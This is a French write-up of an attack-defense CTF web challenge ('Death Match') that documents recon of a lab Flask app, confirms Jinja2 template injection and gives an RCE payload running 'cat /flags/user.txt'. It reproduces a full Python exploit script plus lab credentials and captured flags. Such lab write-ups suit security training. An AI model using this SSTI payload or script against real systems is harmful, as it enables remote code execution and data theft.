



# Writeup : hl-deathmatch-battle01

Catégorie : web

Date de résolution : 2026-11-16

Technique principale : Death Match farm: lire OUR et ENEMY puis soumettre avant rotation

Outils observés : ch0wn3rs_deathmatch_SHARE.py,urllib,curl

Cible : -

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/hl-deathmatch-battle01. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

OUR=HLB2026{ed93363f0a48ee22c09ccf514193e97f8ba201d78fd21fcd}; ENEMY=HLB2026{f2b0efcfdc3c63001f425be4e75d63057caa554d91571fa1}

### Pourquoi ça marche

Les flags /flags/user.txt tournent environ toutes les 10 minutes; le dashboard est le seul submit connu.

### Pièges

Les scripts locaux ne donnent aucun point sans collage/submit sur le dashboard Death Match.

### Notes locales conservées

# HackerLab 2026 :  Battle 01 :  Death Match

## Cible
1. Attack: `10.200.60.2`
2. Defend: `10.200.59.2`
3. VPN: interface `hl_ad`, routes `10.200.59.0/24` et `10.200.60.0/24`

## Recon
4. TCP ouverts sur la cible: `22/ssh`, `443/https`, `8443/https-alt`.
5. `443`: Meridian CTI Platform v2.1.0, Flask/Gunicorn derrière nginx.
6. `8443`: Internal API; `/api/docs` exposé.
7. Création d’un compte analyste possible.

## Exploit vérifié
1. Création/login avec `analyst2026`.
2. `/indicators/report?title={{7*7}}` retourne `<title>49</title>`: SSTI Jinja2.
3. Payload RCE testé:
   `{{request.application.globals.builtins.import('os').popen('cat /flags/user.txt').read()}}`
4. Première sortie observée: `79f057138bbd415d1070ee870d7556bb8fc251e5f99cbf67`.
   Le flag A/D a ensuite tourné; trois lectures consécutives via `solve.py` renvoient
   maintenant `75aee627102c65a2d15de85f16eee11018fd1bad101e0125`.

## Flag
Ancienne valeur tournée: `HLB2026{75aee627102c65a2d15de85f16eee11018fd1bad101e0125}`.

## Rotation courante observée
12. OUR `10.200.59.2`: `HLB2026{ed93363f0a48ee22c09ccf514193e97f8ba201d78fd21fcd}`
13. ENEMY `10.200.60.2`: `HLB2026{f2b0efcfdc3c63001f425be4e75d63057caa554d91571fa1}`
14. Sortie de soumission manuelle: `dm_flags/SUBMIT_NOW.txt`.
15. `DM_SUBMIT_URL` absent; aucun endpoint de submit automatique configuré.

## Journal
16. 2026-11-16T20:52:30Z unknown : VPN hl_ad actif; cible 10.200.60.2 Meridian CTI; SSTI Jinja2 dans /indicators/report confirmé avec {{7*7}}, RCE puis cat /flags/user.txt

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/hl-deathmatch-battle01
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
import html
import re
import urllib.parse
import urllib.request
import http.cookiejar

BASE = "https://10.200.60.2"
USER = "analyst2026"
PASSWORD = "A2026pass"

ctx = __import__("ssl")._create_unverified_context()
cookies = http.cookiejar.CookieJar()
opener = urllib.request.build_opener(
    urllib.request.HTTPCookieProcessor(cookies),
    urllib.request.HTTPSHandler(context=ctx),
)

def post(path, data):
    body = urllib.parse.urlencode(data).encode()
    req = urllib.request.Request(BASE + path, data=body, method="POST")
    return opener.open(req, timeout=8).read()

post("/login", {"username": USER, "password": PASSWORD})
cmd = "cat /flags/user.txt"
payload = "{{request.application.__globals__.__builtins__.__import__('os').popen(" + repr(cmd) + ").read()}}"
query = urllib.parse.urlencode({"title": payload})
req = urllib.request.Request(BASE + "/indicators/report?" + query)
page = opener.open(req, timeout=8).read().decode("utf-8", "replace")
title = re.search(r"<title>(.*?)</title>", page, re.S)
token = html.unescape(title.group(1)).strip() if title else ""
if not re.fullmatch(r"[0-9a-f]{48}", token):
    raise SystemExit(f"unexpected token: {token!r}")
print(f"HLB2026{{{token}}}")
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `HLB2026{f2b0efcfdc3c63001f425be4e75d63057caa554d91571fa1}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
